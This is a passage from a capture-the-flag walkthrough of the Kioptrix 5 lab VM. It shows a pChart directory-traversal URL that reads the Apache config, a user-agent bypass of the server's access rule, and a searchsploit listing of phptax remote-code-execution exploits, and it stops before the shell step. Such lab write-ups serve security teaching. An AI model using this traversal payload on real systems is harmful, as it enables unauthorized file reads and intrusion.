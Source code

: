 ```bash
http://kioptrix5.com/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf
```

Contents of `httpd.conf`

```apache
---output snipped---

<VirtualHost *:8080>
    DocumentRoot /usr/local/www/apache22/data2

<Directory "/usr/local/www/apache22/data2">
    Options Indexes FollowSymLinks
    AllowOverride All
    Order allow,deny
    Allow from env=Mozilla4_browser
</Directory>



</VirtualHost>
```

We can see that the web server is only allowing requests when the user agent is `Mozilla4_browser`.

### Firefox Extension User-Agent Switcher and Manager

We can set custom user agent using a `firefox` extension. After setting it to `Mozilla4_browser` we can see a link to a `php` application named `phptax`.'

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix5/phptax.png){: .align-center}

### Searchsploit

```bash
kali@kali:~/Desktop/vulnhub/kioptrix5$ searchsploit phptax
-----------------------------------------------------------------------
 Exploit Title       
 -----------------------------------------------------------------------
PhpTax - 'pfilez' Execution Remote Code Injection (Metasploit)       | exploits/php/webapps/21833.rb
PhpTax 0.8 - File Manipulation 'newvalue' / Remote Code Execution    | exploits/php/webapps/25849.txt
phptax 0.8 - Remote Code Execution                                   | exploits/php/webapps/21665.txt
------------------------------------------------------------------------
Shellcodes: No Result
```

And we have some `RCE` for this application. Lets try using it without `metasploit`

## Low Shell
